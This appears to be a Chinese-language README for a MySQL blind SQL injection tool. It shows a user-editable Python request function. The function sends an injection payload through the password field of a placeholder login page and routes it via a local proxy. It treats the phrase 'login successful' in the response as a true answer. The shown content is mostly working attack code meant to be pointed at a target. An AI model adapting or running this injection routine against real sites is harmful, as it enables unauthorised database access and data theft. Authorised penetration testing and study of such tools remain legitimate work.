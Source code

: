 ## 🎯 核心设计

**req函数完全由用户自定义**，包括：
- 目标URL
- 请求方式（GET/POST等）
- 请求参数和注入点
- 代理设置
- 请求头
- 判断注入成功的逻辑
- 错误处理

## 📖 使用方法

### 1. 修改req函数

打开 `mysql_sql_inject.py`，找到 `req` 函数，根据您的目标环境修改：

```python
def req(payload):
    # ========== 用户自定义区域开始 ==========
    
    # 1. 修改目标URL
    url = "http://your-target.com/login.php"
    
    # 2. 修改请求参数（根据实际注入点）
    data = "username=admin&password=admin' or "+str(payload)+" #"
    
    # 3. 修改请求头
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    
    # 4. 修改代理设置（可选）
    proxies = {
        "http": "http://127.0.0.1:8080",
        "https": "http://127.0.0.1:8080",
    }
    
    # 5. 发送请求
    r = requests.post(url=url, proxies=proxies, headers=headers, data=data)
    resContent = r.content
    
    # 6. 自定义判断逻辑
    if "登录成功" in resContent.decode('utf-8'):
        return 1  # 注入成功
    else:
        return 2  # 注入失败
    
    # ========== 用户自定义区域结束 ==========
```
